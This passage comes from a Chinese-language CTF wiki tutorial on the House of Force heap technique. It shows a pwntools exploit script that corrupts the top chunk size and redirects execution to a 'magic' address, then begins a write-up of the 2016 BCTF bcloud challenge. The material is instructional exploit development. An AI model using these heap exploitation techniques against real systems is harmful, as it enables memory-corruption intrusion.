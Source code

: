 ```shell

magic = 0x400d49
# we must alloc enough size, so as to successfully alloc from fake topchunk
additem(0x30, "ddaa")  # idx 0
payload = 0x30 * 'a'  # idx 0's content
payload += 'a' * 8 + p64(0xffffffffffffffff)  # top chunk's prev_size and size
# modify topchunk's size to -1
modify(0, 0x41, payload)
# top chunk's offset to heap base
offset_to_heap_base = -(0x40 + 0x20)
malloc_size = offset_to_heap_base - 0x8 - 0xf
#gdb.attach(r)
additem(malloc_size, "dada")
additem(0x10, p64(magic) * 2)
print r.recv()
r.interactive()

```

當然，這一題也可以使用 unlink 的方法來做。

## 2016 BCTF bcloud
[題目鏈接](https://github.com/ctf-wiki/ctf-challenges/tree/master/pwn/linux/user-mode/heap/house-of-force/2016_bctf_bcloud)

### 基本信息

```shell
➜  2016_bctf_bcloud git:(master) file bcloud   
bcloud: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, for GNU/Linux 2.6.24, BuildID[sha1]=96a3843007b1e982e7fa82fbd2e1f2cc598ee04e, stripped
➜  2016_bctf_bcloud git:(master) checksec bcloud  
[*] '/mnt/hgfs/Hack/ctf/ctf-wiki/pwn/heap/example/house_of_force/2016_bctf_bcloud/bcloud'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
```

可以看出，這是一個動態鏈接的 32 位程序，主要開啓了 Canary 保護與 NX 保護。

### 基本功能

程序大概是一個雲筆記管理系統。首先，程序會進行一些初始化，設置用戶的名字，組織，host。程序主要有以下幾個功能

1. 新建note，根據用戶的輸入x申請x+4的空間作爲note的大小。
2. 展示note，啥功能也沒有。。
3. 編輯note，根據用戶指定的 note 編輯對應的內容。
4. 刪除note，刪除對應note。
5. 同步note，標記所有的note已經被同步。
